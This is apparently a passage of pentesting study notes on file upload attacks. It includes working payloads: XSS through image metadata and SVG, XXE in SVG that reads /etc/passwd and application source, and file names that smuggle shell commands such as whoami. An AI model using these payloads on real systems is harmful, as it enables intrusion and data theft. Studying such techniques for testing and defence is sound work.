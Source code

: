 if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
</pre>
<p>Tip: start with file that gets uploaded, intercept in Bupsuite and start from there by fuzzing allowed extensions. Then check for allowed content-types and then start playing with reverse double extensions.</p>

<h2>Limited file uploads</h2>
<h3>XSS</h3>
<p>When you can upload HTML files, you can include JavaScript code in it that then gets executed when a victim visits the page.</p>
<p>When a web app shows image metadata after upload. Inject a XSS payload in the Metadata parameter (e.g. comment or artist parameters):</p>
<pre>
exiftool -Comment=' "&gt;&lt;img src=1 onerror=alert(window.origin)&gt;' HTB.jpg
</pre>
<p>Another possibility is to change the MIME-type tp text/html --> rendered as HTML --> XSS executed.</p>
<p>SVG images are made up of XML --> add XSS payload to XML:</p>
<pre>
&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd"&gt;
&lt;svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1"&gt;
    &lt;rect x="1" y="1" width="1" height="1" fill="green" stroke="black" /&gt;
    &lt;script type="text/javascript"&gt;alert(window.origin);&lt;/script&gt;
&lt;/svg&gt;
</pre>
<h3>XXE</h3>
<p>Leak sensitive data using SVG by insertion of malicious XML:</p>
<pre>
&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;!DOCTYPE svg [ &lt;!ENTITY xxe SYSTEM "file:///etc/passwd"&gt; ]&gt;
&lt;svg&gt;&amp;xxe;&lt;/svg&gt;
</pre>
<p>Get source code:</p>
<pre>
&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;!DOCTYPE svg [ &lt;!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"&gt; ]&gt;
&lt;svg&gt;&amp;xxe;&lt;/svg&gt;
</pre>
<p>Note: can of course also be used when XML can be uploaded instead of SVG. PDF, Word, PPT also use XML and thus can be used if Web app is vulnerable. Or with exiftool in JPG, GIF, JPEG and PNG.</p>

<h2>Other attacks</h2>
<h3>Injections In File name</h3>
<pre>
 file$(whoami).jpg
 file`whoami`.jpg
 file.jpg||whoami
</pre>
<p>This gets executed when the backend uses the filename in a system command (you escape the command and execute new command)</p>
<p>XSS:</p>
<pre>
&lt;script&gt;alert(window.origin);&lt;/script&gt;
</pre>
<p>Can get executed to on victims machine if filename is displayed to them.</p>
